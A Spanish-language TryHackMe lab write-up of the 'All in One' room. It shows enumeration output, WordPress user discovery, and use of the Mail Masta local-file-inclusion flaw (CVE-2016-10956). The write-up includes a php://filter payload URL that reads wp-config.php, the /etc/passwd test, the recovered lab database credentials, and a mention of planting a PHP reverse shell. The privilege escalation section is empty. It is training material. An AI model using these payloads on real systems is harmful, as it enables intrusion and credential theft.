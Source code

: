```yaml
---
layout: writeup
category: TryHackMe
chall_description: https://tryhackme.com/r/room/allinonemj
points: 160
solves: 2
tags: tryhackme ejptv2
date: 2024-08-23
comments: false
---
```


# Enumeration and Scanning

Primero de todos hacemos un escaneo de los puertos y sus servicios

![image](https://github.com/user-attachments/assets/197fa6d1-b90b-40b4-9b3c-af2cd5b40bbc)

### Puerto 80 (HTTP Server)

Seguimos con la enumeración y comenzamos con el puerto 80:

![image](https://github.com/user-attachments/assets/fb30bc7f-580a-4488-bbce-93669d6c0a2c)

Parece la típica página por defecto de servidores Apache. Enumeramos los directorios del servidor web:

    [+] Url:                     http://10.10.33.133/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/local/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /wordpress            (Status: 301) [Size: 316] [--> http://10.10.33.133/wordpress/]
    /hackathons           (Status: 200) [Size: 197]
    

Hay un directorio wordpress. Vemos lo que tiene:

![image](https://github.com/user-attachments/assets/fc0ef621-48b0-4c4c-b0d3-65ebcfad41d1)

Parece una web hecha con Wordpress. Le lanzamos WPScan para saber plugins vulnerables, temas vulnerables y enumerar usuarios y conseguimos sacar un usuario:

    [+] elyana
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Rss Generator (Passive Detection)
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.29.33/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

Probamos bruteforce al login de wordpress y no obtuvimos nada. Volvemos a lanzar WPScan para ver si encontramos alguna vulnerabilidad de los plugins, y encontramos que de Mail Masta 1.0 encontramos 2 vulnerabilidades interesantes:

    [+] mail-masta
     | Location: http://10.10.168.165/wordpress/wp-content/plugins/mail-masta/
     | Latest Version: 1.0 (up to date)
     | Last Updated: 2014-09-19T07:52:00.000Z
     |
     | Found By: Urls In Homepage (Passive Detection)
     |
     | [!] 2 vulnerabilities identified:
     |
     | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
     | [!] Title: Mail Masta 1.0 - Multiple SQL Injection

# Vulnerability assesment

### CVE-2016-10956

 > *The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation*

Esta vulnerabilidad ataca al pathing "wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=*file*" a través del parámetro pl.
Probamos a acceder a /etc/passwd:

![image](https://github.com/user-attachments/assets/19155f1b-5d52-43df-aeae-8c5cb1fa1d3a)

Le pasamos el siguiente payload:

 > http://10.10.96.163/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

Para obtener el contenido de wp-config en base64. Procedemos a su decodificación:

![image](https://github.com/user-attachments/assets/586fe8d4-717d-44b3-b87b-1ff6bae196d6)

Y vemos las credenciales de acceso a la base de datos:

    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );
    
    /** MySQL database username */
    define( 'DB_USER', 'elyana' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'H@ckme@123' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

Probamos a utilizar esas credenciales para acceder al panel de Wordpress:

![image](https://github.com/user-attachments/assets/c44e1a6d-853c-4cb6-9f71-cf6f94d68de6)

Con este acceso, ya podemos crear una PHP Reverse Shell en uno de los temas y con ello acceder al sistema:



# Privilege escalation
